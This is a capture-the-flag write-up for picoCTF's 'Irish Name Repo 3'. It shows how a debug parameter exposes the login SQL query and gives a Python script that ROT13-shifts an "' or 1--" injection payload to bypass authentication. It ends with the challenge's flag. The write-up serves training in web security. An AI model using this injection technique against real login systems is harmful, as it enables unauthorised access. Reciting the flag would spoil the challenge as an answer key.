


## Irish Name Repo 3



This challenge has a similar setup to part 1 and 2.  

Intercepting a login request with BurpSuite reveals a `debug` parameter being passed.  


Changing `debug` to `1` and submitting the request using BurpSuite Repeater reveals the SQL query used for the login page.  

Now, we can see that our password is being encrypted with a caesar cipher of shift `13`.  



To bypass the login, we just have to encrypt our SQLi payload with a caesar cipher of shift `-13` and submit it to the endpoint, which will then reveal our flag.  

```python
import requests
import re

url = 'http://fickle-tempest.picoctf.net:53244'

password = "' or 1--"

payload = {
    "password": "".join([chr(ord(c) - 13) if c.isalpha() else c for c in password]),
    "debug": 1
}

res = requests.post(f'{url}/login.php', data=payload)
print(re.findall(r'(picoCTF{.+})', res.text)[0])
```

Flag: `picoCTF{3v3n_m0r3_SQL_2af58a67}`